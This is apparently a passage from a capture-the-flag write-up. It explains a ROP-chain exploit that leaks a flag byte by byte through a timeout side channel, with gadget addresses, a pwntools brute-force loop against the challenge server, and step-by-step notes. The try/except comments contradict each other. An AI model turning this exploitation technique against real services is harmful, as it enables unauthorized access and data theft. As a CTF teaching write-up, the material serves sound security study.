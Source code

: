     mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
    )
    ROP += infinite_loop
    ```
    * Move the flag address to `$rax`, and move the flag string to `$eax` next
    * Then put our guess single char to `$r14`
    * Compare `$al` and `$r14b`
    * If correct, go into infinity loop, otherwise, jump to `0x426148`
3. **How to know the single char in pwntool side?**
When the comparison is correct, it'll access into infinity loop and `recv` function will receive something then break while loop and close the connection, otherwise, it'll jump to `0x426148` and trigger timeout exception.
    ```python!
    r.sendafter(b'rop\n',b'a'*0x28 + ROP)
    try :
        # If compare not correct, guess++ and access to infinity loop
        r.recv(timeout=0.5)
        break
    except:
        # If compare correct, pwntool will break out
        guess += 1
    r.close()
    ```
4. Repeat
    ```python!
    flag = ''
    idx = 0
    while idx < 48:
        guess = 0x20
        while guess < 0x80 :
            r = remote('edu-ctf.zoolab.org', 10012)
            {create ROP}
            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :
                ...
            except:
                ...
            r.close()
        idx += 1
        flag += chr(guess)
    ```
* Whole exploit
    ```python!=
    from pwn import *
